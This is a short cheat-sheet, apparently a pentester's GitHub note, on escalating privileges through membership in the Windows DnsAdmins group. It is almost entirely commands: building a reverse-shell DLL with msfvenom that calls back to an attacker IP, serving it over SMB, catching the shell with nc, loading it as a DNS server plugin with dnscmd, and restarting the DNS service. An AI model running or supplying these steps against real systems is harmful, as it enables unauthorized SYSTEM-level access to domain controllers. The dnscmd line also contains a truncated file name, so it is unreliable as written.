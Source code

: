 # DNSADMIN 

If you are part of dnsadmin group you can privilege escalate by load a plugin dll.

Build dll with msfvenom

```sh
mkdir upload
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.10 LPORT=9002 -f dll > upload/9002.dll
```

Start smbserver

```sh
sudo smbserver.py upload ./upload
```

Start your listener

```
nc -lnvp 9002
```

Load dll


```sh
dnscmd fqdn.local /config /serverlevelplugindll \\xx.xx.xx.xx\upload\9002.dl
```

Note to get fqdn if you are on same machine you can use this command

```sh
[System.Net.Dns]::GetHostByName(($env:computerName))
```

Restart dns server

```
sc.exe stop dns
sc.exe start dns
```

You should now have a shell.

